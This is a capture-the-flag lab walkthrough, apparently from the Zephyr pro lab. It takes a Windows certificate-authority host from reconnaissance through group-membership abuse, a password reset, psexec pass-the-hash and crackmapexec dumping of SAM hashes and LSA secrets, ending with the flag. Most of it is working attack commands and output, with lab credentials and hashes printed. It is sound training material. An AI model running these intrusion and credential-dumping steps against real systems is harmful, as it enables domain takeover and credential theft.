



I will start by checking for possible strange ports on the TCP target:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Tools/PKINITtools]
└─# nmap 192.168.210.12                                                              
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 13:16 CEST
Nmap scan report for 192.168.210.12
Host is up (0.017s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 5.59 seconds
```

I don't see anything strange here unfortunately.

* * *

## SMB:

We can get a lot of information of a Server by trying to query a samba service and this can help to footprint a Windows server:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains enum4linux-ng -A 192.168.210.12
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.210.12
[*] Username ......... ''
[*] Random Username .. 'nvidkjsy'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.210.12    |
 =======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:389 
<--socket error or timeout!
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:636 <--socket error or timeout!
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.210.12    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 192.168.210.12    |
 ===========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                                                                                             
SMB signing required: false                                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 192.168.210.12    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: ZPH-SVRCA01                                                                                                                                                                                                                           
NetBIOS domain name: ZSM                                                                                                                                                                                                                                     
DNS domain: zsm.local                                                                                                                                                                                                                                        
FQDN: ZPH-SVRCA01.zsm.local                                                                                                                                                                                                                                  
Derived membership: domain member                                                                                                                                                                                                                            
Derived domain: ZSM                                                                                                                                                                                                                                          

 ===========================================
|    RPC Session Check on 192.168.210.12    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 =================================================
|    OS Information via RPC for 192.168.210.12    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.12:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                                     
OS version: '10.0'                                                                                                                                                                                                                                           
OS release: ''                                                                                                                                                                                                                                               
OS build: '20348'                                                                                                                                                                                                                                            
Native OS: not supported                                                                                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                                                                                            
Platform id: null                                                                                                                                                                                                                                            
Server type: null                                                                                                                                                                                                                                            
Server type string: null                                                                                                                                                                                                                                     

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 47.87 seconds
```

From here we can see that this is a CA relaying on the Realm "ZSM.local".

* * *

## Back on Track:

From last scan I found out that Marcus was indeed already part of CA Managers:



And checkin seems like he can WIN-RM into machine:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# crackmapexec winrm 192.168.210.12 -u Marcus -p ZEPHYR/marcus.pass 
SMB         192.168.210.12  5985   ZPH-SVRCA01      [*] Windows 10.0 Build 20348 (name:ZPH-SVRCA01) (domain:zsm.local)
HTTP        192.168.210.12  5985   ZPH-SVRCA01      [*] http://192.168.210.12:5985/wsman
WINRM       192.168.210.12  5985   ZPH-SVRCA01      [+] zsm.local\Marcus:!QAZ2wsx (Pwn3d!)
```

* * *

## PE:

Now seems our users have not that much permisisons to do anythign and my tools get's blocked most likely cause Defender Realtime protection is active so knowing that this is a CA we can check for possible Vulbnerbale CA templates.

I will run Certipy to get a list of all Certificate Templates:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# certipy find -u jamie@zsm.local -p Coglione1! -dc-ip 192.168.210.10              
Certipy v4.8.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'zsm-ZPH-SVRCA01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'zsm-ZPH-SVRCA01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'zsm-ZPH-SVRCA01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'zsm-ZPH-SVRCA01-CA'
[*] Saved BloodHound data to '20230916235723_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230916235723_Certipy.txt'
[*] Saved JSON output to '20230916235723_Certipy.json'
```

Next I need to use the custom version of ly4k's Bloodhound and importing the file we can see that we could use the PE technique ESC1 on one template:



Unfrotunately is not working so going back we knwo both Marcus and Jamie are part of CA Managers, but svc\_Ca seems like he can enroll some certs:

****

* * *

## Back on track:

When I tried yesterday I found out that someone other left some old setting but the intended way was to:

- Add Marcus to General manangers via MGNT1 machine

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-psexec Administrator@192.168.210.11 -hashes :545c503123664e5713439e088bd91035 

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.210.11.....
[*] Found writable share ADMIN$
[*] Uploading file gLHoRSPr.exe
[*] Opening SVCManager on 192.168.210.11.....
[*] Creating service AhSe on 192.168.210.11.....
[*] Starting service AhSe.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1726]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> net group "general management" Marcus /add /domain      
The request will be processed at a domain controller for domain zsm.local.

The command completed successfully.
```

- Login back as marcus@zsm.local on MGMNT1 and reset Jamies password:

```
Evil-WinRM* PS C:\Temp> $UserPassword = ConvertTo-SecureString 'Coglione1!' -AsPlainText -Force
*Evil-WinRM* PS C:\Temp> Set-DomainUserPassword -Identity jamie -AccountPassword $UserPassword -Credential $marcus
*Evil-WinRM* PS C:\Temp>
```

- Laslty use Jamie Credentials to  add himself to CA Managers group so he can login into CA01

```
<pre>
<span style="color:#D41919">*Evil-WinRM*</span><span style="color:#FF8A18"><b> PS </b></span>C:\Temp&gt; Add-DomainGroupMember -Identity &quot;CA Managers&quot; -Members &apos;jamie@zsm.local&apos; -Cred $jamie
<span style="color:#D41919">*Evil-WinRM*</span><span style="color:#FF8A18"><b> PS </b></span>C:\Temp&gt; Get-DomainGroupMember -Identity &quot;CA Managers&quot; -Cred $marcus


GroupDomain             : zsm.local
GroupName               : CA Managers
GroupDistinguishedName  : CN=CA Managers,CN=Builtin,DC=zsm,DC=local
MemberDomain            : zsm.local
MemberName              : jamie
MemberDistinguishedName : CN=Jamie Smith,OU=Users,OU=Zephyr,OU=Sites,DC=zsm,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-2734290894-461713716-141835440-4602

GroupDomain             : zsm.local
GroupName               : CA Managers
GroupDistinguishedName  : CN=CA Managers,CN=Builtin,DC=zsm,DC=local
MemberDomain            : zsm.local
MemberName              : ca_svc
MemberDistinguishedName : CN=ca_svc,OU=Service Accounts,OU=Users,OU=Zephyr,OU=Sites,DC=zsm,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-2734290894-461713716-141835440-4104


<span style="color:#D41919">*Evil-WinRM*</span><span style="color:#FF8A18"><b> PS </b></span>C:\Temp&gt; 
</pre>
```

NNow we can login into machine as Jamie!

* * *

## Last breath:

Now  that we have found the Domain Administrator we can use those Hashes to dump the local SAM:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# crackmapexec smb 192.168.210.12 -u Administrator -H 84210eddc5724a7801fe78289ee94d44 --sam
SMB         192.168.210.12  445    ZPH-SVRCA01      [*] Windows 10.0 Build 20348 x64 (name:ZPH-SVRCA01) (domain:zsm.local) (signing:False) (SMBv1:False)
SMB         192.168.210.12  445    ZPH-SVRCA01      [+] zsm.local\Administrator:84210eddc5724a7801fe78289ee94d44 (Pwn3d!)
SMB         192.168.210.12  445    ZPH-SVRCA01      [+] Dumping SAM hashes
SMB         192.168.210.12  445    ZPH-SVRCA01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:f027f0fcf9a7470a9276a6484eb336f9:::
SMB         192.168.210.12  445    ZPH-SVRCA01      Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.210.12  445    ZPH-SVRCA01      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.210.12  445    ZPH-SVRCA01      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.210.12  445    ZPH-SVRCA01      [+] Added 4 SAM hashes to the database
```

Lastly the SAM file:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# crackmapexec smb 192.168.210.12 -u Administrator -H 84210eddc5724a7801fe78289ee94d44 --lsa 
SMB         192.168.210.12  445    ZPH-SVRCA01      [*] Windows 10.0 Build 20348 x64 (name:ZPH-SVRCA01) (domain:zsm.local) (signing:False) (SMBv1:False)
SMB         192.168.210.12  445    ZPH-SVRCA01      [+] zsm.local\Administrator:84210eddc5724a7801fe78289ee94d44 (Pwn3d!)
SMB         192.168.210.12  445    ZPH-SVRCA01      [+] Dumping LSA secrets
SMB         192.168.210.12  445    ZPH-SVRCA01      ZSM.LOCAL/Administrator:$DCC2$10240#Administrator#04a13c983d1c6f2ee43cc9aa0c4d49c6: (2023-08-07 19:12:21)

[*] completed: 100.00% (1/1)
SMB         192.168.210.12  445    ZPH-SVRCA01      ZSM\ZPH-SVRCA01$:aes256-cts-hmac-sha1-96:58f55915ff63e003265874900eb9c5452728509e86eb247cdabbe52a9167e159
SMB         192.168.210.12  445    ZPH-SVRCA01      ZSM\ZPH-SVRCA01$:aes128-cts-hmac-sha1-96:84f8338aa766506ec9eb1cc34772cc03
SMB         192.168.210.12  445    ZPH-SVRCA01      ZSM\ZPH-SVRCA01$:des-cbc-md5:79ae58b54a97fb58
SMB         192.168.210.12  445    ZPH-SVRCA01      ZSM\ZPH-SVRCA01$:plain_password_hex:3169d7fdeaf59ce961515b0a1b56099dd7a41e7d5e43fadbc8aa2515da9cfc021bc11115cb803e5f73218f13e45a4013e58ebc450b3a93f10510ae206185adcc86feecf19b3088ecbf85863a5692887f6c2ee16a1bb247df65dcd0d31ddb25368677e29e43103487008a4fce60583687f451392cf9f006deb661f9873e436040eef33b7bd0f8d45307ff1195b4b506d146526987ba45edc809323abf4e6f5ea2339e13d8162153bb1a03485e8ee8916ef0fe4f461bf8db8d26a90b8e3f63e69060bcc59d6d39684d31890986ec03b573e1c8d4c3636f5f5a8e0c747202cd6f2c894b2503baa2409d83a9857fa521270d
SMB         192.168.210.12  445    ZPH-SVRCA01      ZSM\ZPH-SVRCA01$:aad3b435b51404eeaad3b435b51404ee:251e366fdd64eff18be0824ec7c6833c:::
SMB         192.168.210.12  445    ZPH-SVRCA01      dpapi_machinekey:0xbca47568e47f6849405e3cf1dad07a34125ad78f
dpapi_userkey:0x55d21167d94854b035a2851c6035b7baf7277851
SMB         192.168.210.12  445    ZPH-SVRCA01      NL$KM:07e9f23f0849460702ce304b65d386326f025d367de83033f47194449837cb1a05cc76f126e294e7d354781fefbee913303b62cba55775e678f3d4555c682015
SMB         192.168.210.12  445    ZPH-SVRCA01      [+] Dumped 8 LSA secrets to /root/.cme/logs/ZPH-SVRCA01_192.168.210.12_2023-09-19_130756.secrets and /root/.cme/logs/ZPH-SVRCA01_192.168.210.12_2023-09-19_130756.cached
```

I had some trubles to login as Administrator@zsm.local and Yovecio(me) but eventually using the dumped local Administrator's hash we are in a matter of seconds, but I could't find the flag under Administrator's home and apparently I was hiding under Public Desktop folder:

```
*Evil-WinRM* PS C:\Users\Public\Desktop> ls


    Directory: C:\Users\Public\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/26/2022   5:39 PM             43 flag.txt


*Evil-WinRM* PS C:\Users\Public\Desktop> cat flag.txt
ZEPHYR{C0n57r4in3d_d3l3g4710n_1s_d4ng3r0us}
*Evil-WinRM* PS C:\Users\Public\Desktop> hostname
ZPH-SVRCA01
*Evil-WinRM* PS C:\Users\Public\Desktop>
```

We can finish here.

&nbsp;

&nbsp;

&nbsp;